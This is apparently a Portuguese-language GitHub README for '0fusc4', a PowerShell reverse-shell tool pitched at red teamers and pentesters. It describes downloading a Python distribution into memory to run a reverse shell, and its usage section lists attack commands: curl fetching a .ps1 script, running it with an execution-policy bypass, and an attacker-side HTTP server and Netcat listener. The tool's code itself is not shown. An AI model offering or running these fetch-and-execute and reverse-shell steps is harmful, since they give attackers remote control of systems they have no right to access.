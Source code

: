 # 0fusc4
0fusc4 é uma ferramenta desenvolvida para profissionais de Red Team e pentesters. Ela é um shell reverso, ou seja, permite estabelecer uma conexão remota entre dois sistemas, onde um atua como o servidor e o outro como o cliente. Essa ferramenta é implementada em PowerShell e utiliza um script Python para executar o shell reverso.

A funcionalidade principal do 0fusc4 envolve o estabelecimento de uma conexão com um servidor web onde está hospedado um arquivo ZIP contendo uma distribuição Python. Ao se conectar a esse servidor, o 0fusc4 realiza o download do arquivo ZIP e descompacta-o em um diretório temporário, carregando-o em memória.

Após a extração, o 0fusc4 executa o shell reverso por meio do script Python contido no powershell. Para que a comunicação seja possível, é necessário que um programa como o Netcat esteja ouvindo na máquina receptora para receber o shell reverso.

Durante a execução do shell reverso, o 0fusc4 aguarda comandos enviados pelo sistema receptor. Caso o comando recebido seja "exit", o 0fusc4 encerra a conexão com o servidor remoto e exclui os arquivos temporários baixados, mantendo apenas o script criado.

Dessa forma, o 0fusc4 possibilita a execução de um shell reverso por meio de um script Python, utilizando uma distribuição Python em memória. Essa ferramenta é útil para atividades de teste de penetração e avaliação de segurança, permitindo o acesso remoto a sistemas para realizar ações específicas, conforme necessário.

Use:

git clone https://github.com/carlosalbertotuma/0fusc4.git

Servidor Windows
- curl -O "http://example.com/0fusc4.ps1"
- powershell.exe -ExecutionPolicy Bypass -File "0fusc4.ps1"

Servidor Ofensor
- python3 -m http.server 4444
- nc -lnvp 4445

![image](https://github.com/carlosalbertotuma/0fusc4/assets/13341724/eff83c3f-3887-45a1-8536-d567aa26d52d)

